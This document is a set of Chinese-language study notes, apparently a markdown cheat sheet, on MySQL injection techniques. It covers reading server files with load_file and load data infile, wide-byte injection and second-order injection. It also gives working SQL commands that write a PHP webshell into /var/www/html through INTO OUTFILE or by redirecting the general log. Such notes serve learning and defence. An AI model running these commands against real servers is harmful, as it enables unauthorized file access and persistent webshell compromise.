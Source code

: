 # 文件操作：
(补充一点关于文件操作：以前一直觉得只有root才能操作，其实是取决于secure_file_priv这个全局变量的值，如果为空的话，就可以)
## 读文件
load_file(file_name)  读取文件并返回文件内容作为一个字符串
条件:
a.要有FILE权限
b.文件要小于max_allowed_packet
(select count(*) from mysql.user)>0 为真说明有权限
注意windows下用\\分割路径

文件导入到数据库:
有数据库权限时可以用来读文件
load data infile '/tmp/t0.txt' ignore into table t0 character set gbk fields terminated by '\t'
lines terminated by '\n'
把t0.txt导入到t0表中,fields terminated by 是每一项数据之间的分隔符,lines terminated by 是行的结尾符
错误代码2:文件不存在
错误代码13:没权限

常用的路径:
http://www.cnblogs.com/lcamry/p/5729087.html
 

## 写文件
为了绕过引号，可以把内容hexed
1. select '<?php phpinfo();?>' into outfile "/var/www/html/shell.php"
2. select version() into outfile "/var/www/html/shell.php" LINES TERMINATED BY 16进制代码
第二种是利用的文件结尾符
 
<a href="http://blog.cora-lab.org/287.html">利用日志写shell</a>:
适用于outfile被过滤，或者禁止写入文件，但要root权限
客户端下:
```php
show variables like '%general%';  查看配置

set global general_log = on;  开启general log模式

set global general_log_file = '/var/www/html/1.php';   设置日志目录为shell地址

select '<?php phpinfo();?>';  写入shell
```   


# 宽字节注入
[宽字节注入笔记][4]
宽字节存在常见有两个情况，addslashes()和mysql_real_escape_string()

# 二次排序注入（储存注入）
常见的情况是插入的时候转义了(\')，不能注入，但是可以把注入语句(\')储存到数据库('),这样如果某个地方再调用了这个值且没检查，来拼接到SQL语句里，就可能产生注入。就是多一步储存而已，没啥特殊的。


  [1]: https://www.waitalone.cn/mysql-error-based-injection.html
  [2]: http://www.cnblogs.com/xdans/p/5412468.html
  [3]: https://xianzhi.aliyun.com/forum/read/762.html
  [4]: http://03i0.com/index.php/archives/22/
  [7]: http://www.cnblogs.com/lcamry/p/5763154.html
  [8]: http://www.websec.ca/kb/sql_injection
  [9]: http://www.cnbraid.com/page/7/